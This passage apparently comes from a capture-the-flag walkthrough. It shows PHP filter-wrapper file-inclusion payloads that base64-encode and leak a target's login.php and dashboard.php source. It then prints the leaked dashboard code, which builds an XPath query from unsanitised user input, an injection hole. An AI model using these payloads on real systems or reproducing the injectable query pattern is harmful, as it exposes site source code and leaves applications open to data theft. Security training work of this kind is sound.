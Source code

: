  ```php://filter/convert.base64-encode/resource=dev/login.php``` 
                <button type="submit">Login</button>
                <?php if (isset($loginError)) { ?>
                    <p class="error-message"><?php echo $loginError; ?></p>
                <?php } ?>
            </form>
        </div>
    </div>
</body>
</html>

 ```

 9. Third payload to access /dev/dashboard.php - 
 ```php://filter/convert.base64-encode/resource=dev/dashboard.php``` which gives reference researchers.xml

 researchers.xml

 ```html
 <?php
session_start();

if(isset($_SESSION["is_dev"]) && $_SESSION["is_dev"] === FALSE){
    unset($_SESSION);
    header("Location: login.php");
    exit();
}

// Check if the user is logged in, otherwise redirect to the login page
if (!isset($_SESSION["username"])) {
    header("Location: login.php");
    exit();
}

// Logout functionality
if ($_SERVER["REQUEST_METHOD"] === "POST" && isset($_POST["logout"])) {
    session_destroy(); // Destroy the session
    header("Location: login.php"); // Redirect to login page
    exit();
}

// Search functionality
$searchResults = [];
if ($_SERVER["REQUEST_METHOD"] === "GET" && isset($_GET["search"])) {
    $searchName = $_GET["searchName"];
    $xmlDoc = new DOMDocument();
    $xmlDoc->load("data/researchers.xml");
    $xpath = new DOMXPath($xmlDoc);
    if($searchName !== ""){
        $query = "//researchers/researcher[contains(name, '$searchName')]";
        $searchResults = $xpath->query($query);
    } else {
        $query = "//researchers/researcher[contains(name, 'John Doe')]";
        $searchResults = $xpath->query($query);
    }
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/dashboard-style.css">
    <title>Search Catalogue</title>
</head>
 ```